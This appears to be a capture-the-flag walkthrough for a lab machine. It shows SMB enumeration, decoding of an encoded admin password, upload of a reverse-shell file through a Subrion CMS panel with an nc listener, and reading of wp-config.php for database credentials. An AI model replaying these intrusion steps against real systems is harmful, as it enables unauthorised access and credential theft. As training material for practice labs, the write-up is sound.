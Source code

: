 1) I do access in the smb service and I get a file:
```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.203.210/websvr
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

                8460484 blocks of size 1024. 5658240 blocks available
smb: \> get  enter.txt /home/kali/Tech_Supp0rt:
Error opening local file /home/kali/Tech_Supp0rt:
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.3 KiloBytes/sec) (average 1.3 KiloBytes/sec)
smb: \> ls -all
NT_STATUS_NO_SUCH_FILE listing \-all
smb: \> cd ..
smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

                8460484 blocks of size 1024. 5658240 blocks available
smb: \> ^C
```
2) I read the file:
```
┌──(kali㉿kali)-[~]
└─$ cat enter.txt       
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```
3) I crack the password [From Base58, From Base32, From Base64 - CyberChef (gchq.github.io)](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',false)From_Base32('A-Z2-7%3D',false)From_Base64('A-Za-z0-9%2B/%3D',true,false))
     and I discover this credentials:
- Username: admin 
- Password: Scam2021

3) I see the file "robots.txt":
http://10.10.203.210/subrion/robots.txt
```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```
4) I do the login in this directory http://10.10.203.210/subrion/panel/
5)  I uploads my reverse shell in this section "http://10.10.35.160/subrion/panel/uploads/#elf_l1_Lw"
6) I open a listening port:
```
┌──(kali㉿kali)-[/]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
```
7) I go in this directory "http://10.10.35.160/subrion/uploads/rev.phar"
8) In read this file  "/var/www/html/wordpress/wp-config.php":
```
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/wordpress/' );
}

define('WP_HOME', '/wordpress/index.php');
define('WP_SITEURL', '/wordpress/');

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```
9) I find this password: ImAScammerLOL!123!
- Username: scamsite
- Password: ImAScammerLOL!123!